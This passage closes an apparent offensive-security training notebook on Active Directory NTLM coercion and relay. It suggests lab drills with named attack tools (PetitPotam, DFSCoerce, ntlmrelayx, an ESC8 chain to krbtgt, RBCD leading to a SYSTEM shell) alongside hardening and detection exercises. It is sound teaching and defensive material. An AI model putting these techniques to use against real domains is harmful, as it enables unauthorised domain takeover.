- **SpecterOps "Certified Pre-Owned" whitepaper** — the foundational ESC1–ESC8 reference; read the ESC8 section alongside this chapter.
- **Practise the detection side** by importing the coercion/relay Sigma rules into a lab SIEM (e.g. a Wazuh/Elastic stack against your GOAD) and confirming each event ID in Part 11 fires as you run the attack.

**Topic-specific drills**

1. In GOAD, coerce a DC with PetitPotam *and* DFSCoerce; confirm both land in ntlmrelayx and note which RPC interface each used.
2. Complete the full ESC8 chain to `krbtgt`, then **enable EPA** on the CA and prove the same chain now fails — write the before/after in your notes.
3. Configure RBCD via `--delegate-access` on a coerced member server and obtain a SYSTEM shell with `getST.py` + `psexec.py -k` (ties back to Chapter 8).
4. Enforce LDAP signing and channel binding, then attempt SMB→LDAP relay and document the exact rejection you observe.
5. From the blue side: build a detection that alerts when any `*$` machine account produces a 4624 Type 3 logon from an IP other than its own — the single most valuable relay detection.

With coercion and relay understood, you have closed the loop on this Active Directory notebook: recon, Kerberos, delegation, ACLs, and now the forced-authentication primitive that stitches them into a domain takeover from nothing but network access. The next notebook moves from attacking AD to the broader post-exploitation and lateral-movement tradecraft that a domain compromise unlocks.
